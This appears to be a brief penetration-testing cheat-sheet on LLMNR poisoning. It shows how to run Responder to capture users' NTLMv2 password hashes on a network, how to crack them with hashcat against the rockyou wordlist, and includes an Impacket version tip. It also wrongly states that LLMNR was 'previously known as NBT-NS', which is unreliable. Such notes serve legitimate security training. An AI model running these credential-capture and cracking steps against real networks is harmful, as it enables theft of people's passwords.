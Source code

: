 
+ Link Local Multicast Name Resolution
+ Previously known as NBT-NS
+ Just like DNS(Used when DNS Fails)

1. Run Responder
```sh
$ responder -I <interface> -rdwv
# wait for an event to occur
# client details including IP,username and password hash will be captured by responder when an event is occured.
# event in sense when the server fails to resolve a address request.
```

2. We got the NTLMv2 password hash now, lets crack it with Hashcat
```sh
$ hashcat -m 5600 <hashfile.txt> <passwordlist:rockyou.txt> -O
# 5600 - netNTLMv2
# wait for the password to be cracked
```



 Impacket versions > 0.9.19 are unstable and causing issues for students and pentesters alike. Try purging impacket completely and downloading 0.9.19 from here: [https://github.com/SecureAuthCorp/impacket/releases](https://github.com/SecureAuthCorp/impacket/releases)














